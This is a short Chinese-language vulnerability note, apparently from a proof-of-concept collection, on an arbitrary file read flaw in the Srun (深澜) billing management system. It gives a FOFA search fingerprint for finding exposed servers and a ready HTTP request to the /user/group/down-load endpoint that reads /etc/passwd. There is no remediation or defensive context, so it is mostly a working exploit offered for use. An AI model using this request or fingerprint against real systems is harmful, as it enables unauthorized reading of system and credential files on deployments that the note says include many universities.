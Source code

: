 ## 深澜计费管理系统down-load存在任意文件读取漏洞

杭州瀚洋科技有限公司（深澜软件）是全球领先且企业高端用户最多的认证计费技术厂商之一，总部位于中国的杭州。目前全球超过2500家企业选择深澜软件作为其用户认证管理及计费方案；其中在中国Top100高校中有60%使用我们的产品。 作为全球认证计费解决方案的领导品牌

## fofa

```
body="/js/lib/slimscroll.js"
```

## poc

```
GET /user/group/down-load?file=/etc/passwd HTTP/2
Host: 
Sec-Ch-Ua-Platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Sec-Ch-Ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=2
```
